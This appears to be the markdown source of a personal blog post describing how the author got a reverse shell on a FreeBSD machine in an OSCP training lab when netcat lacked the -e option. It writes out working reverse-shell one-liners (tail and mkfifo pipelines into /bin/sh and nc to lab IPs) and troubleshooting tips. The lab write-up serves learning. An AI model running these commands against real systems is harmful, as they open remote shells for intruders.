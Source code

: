 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security draft
tags: netcat hack draft
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you don\'t know what I\'m talking about from the title of this article, then there is nothing to see... Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, so not quite my expertise.

I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following solution.

1. Use tail -f to feed commands from a temporary file to bash. (Using -n 0 to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:
{% highlight bash %}
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
{% endhighlight %}

And don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous [/dev/tcp/<ip>/<port>](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) did not work either. The following command did not result in any response on my machine.

{% highlight bash %}
echo foo > /dev/tcp/10.11.0.13/443
{% endhighlight %}

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

{% highlight bash %}
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
{% endhighlight %}

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the "mkfifo pipe" command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When uname -a gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: chmod +x did not work, chmod 777 did the job... (◔_◔)
